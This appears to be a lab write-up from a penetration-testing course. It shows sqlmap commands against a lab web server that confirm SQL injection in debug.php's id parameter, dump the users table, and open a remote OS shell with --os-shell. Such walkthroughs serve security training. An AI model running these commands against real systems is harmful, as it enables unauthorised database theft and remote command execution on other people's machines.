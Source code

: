 9.4.5.13

# 9.4.5.13
## 9.4.5.13.1. Use sqlmap to obtain a full dump of the database.

Run sqlmap to test the id parameter. It confirms there is an injection point using parameter 'id' and 4 payloads to do so. It also outputs the back-end is MariaDB
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id"
```
![8043c4ba98260586f8371d1d5f0d0cf1.png](../../_resources/bb9de9efc70a444c9ab2e71b138a8107.png)
![2f6675243451b18d546bb456dc97d11f.png](../../_resources/77822323e3a4473d92c20dbd669ca27b.png)

Dump the contents of all tables in the database. We see that it dumped a CSV file in /home/kali/.sqlmap/output/192.168.214.10/dump/webappdb/users.csv
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```
![14e8ccdb494d133b6b76f11d7f17a4ff.png](../../_resources/9105a2a8ad9c41aaa306f0fa0ae0d778.png)
![4d86a21e678f9ca178b07f942edd29b9.png](../../_resources/ecbe4e2cdce84cb5b639a7f028d22008.png)



## 9.4.5.13.2. Use sqlmap to obtain an interactive shell.

Try the --os-shell method to upload and execute a remote command shell on the Windows machine. We see that we can run commands such as whoami, ipconfig, and dir
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
![5782b8c78f2771bfd80cf7c66b19fa17.png](../../_resources/ca5c682993064f648f9e9bd14fe593e4.png)
![84df895deb6d14d985d702074182cf58.png](../../_resources/3cea1b4a9fc545f8a9e4074a0750832c.png)
![382ed146b5b40396f900f539136aef3f.png](../../_resources/a411f36aea154461bdf535cebb741433.png)



